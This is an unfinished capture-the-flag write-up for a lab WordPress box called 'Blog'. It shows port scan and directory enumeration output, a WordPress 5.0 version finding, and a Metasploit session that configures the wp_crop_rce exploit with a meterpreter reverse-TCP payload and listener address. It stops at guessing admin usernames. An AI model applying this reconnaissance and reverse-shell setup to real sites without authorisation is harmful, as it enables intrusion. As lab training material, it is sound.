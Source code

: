 # Blog

## Objectives
1. root.txt 
```
```
2. user.txt
```
```
3. where was user.txt found?
```
```
4. what CMS is being used?
```
WordPress
```
5. version of CMS
```
5.0
```

nmap results - 
```
22
80
139
280
445
```
Add blog.thm in /etc/hosts with IP 

directory enumeration results - 
```
[19:20:28] 301 -    0B  - /0  ->  http://10.10.111.21/0/                    
[19:20:31] 301 -    0B  - /2020  ->  http://10.10.111.21/2020/              
[19:20:36] 301 -    0B  - /Citrix//AccessPlatform/auth/clientscripts/cookies.js  ->  http://10.10.111.21/Citrix/AccessPlatform/auth/clientscripts/cookies.js
[19:20:40] 301 -    0B  - /New%20folder%20(2)  ->  http://10.10.111.21/New%20folder%20(2
[19:20:40] 301 -    0B  - /PMA2/index.php  ->  http://10.10.111.21/PMA2/    
[19:20:40] 301 -    0B  - /PMA/index.php  ->  http://10.10.111.21/PMA/      
[19:21:03] 302 -    0B  - /admin  ->  http://blog.thm/wp-admin/
```
Powered by WordPress
```
Found WordPress version as 5.0 in source code
```
wp scan reveals there are 56 vulnerabilities in this insecure WordPress version.
```
 WordPress version 5.0 identified (Insecure, released on 2018-12-06).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.213.61/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.0'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.213.61/, Match: 'WordPress 5.0'
 |
 | [!] 56 vulnerabilities identified:

```
Firing up Metasploit Framework and searching for exploit 
```
msf6 > search wordpress 5.0

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_crop_rce                    2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload
   1  exploit/unix/webapp/wp_property_upload_exec       2012-03-26       excellent  Yes    WordPress WP-Property PHP File Upload Vulnerability
   2  auxiliary/scanner/http/wp_registrationmagic_sqli  2022-01-23       normal     Yes    Wordpress RegistrationMagic task_ids Authenticated SQLi


Interact with a module by name or index. For example info 2, use 2 or use auxiliary/scanner/http/wp_registrationmagic_sqli

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_crop_rce) > options

Module options (exploit/multi/http/wp_crop_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THEME_DIR                   no        The WordPress theme dir name (disable theme auto-detection if provided)
   USERNAME                    yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.29.229   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress

```
We need wp-admin login username and password to gain RCE with this exploit

Since ports 139 and 445 are open, lets try enum4linux to see more data -
```

```
Manual browsing shows 2 author names -
```
bjoel
kwheel
```
Could possibly be usernames for wp-admin
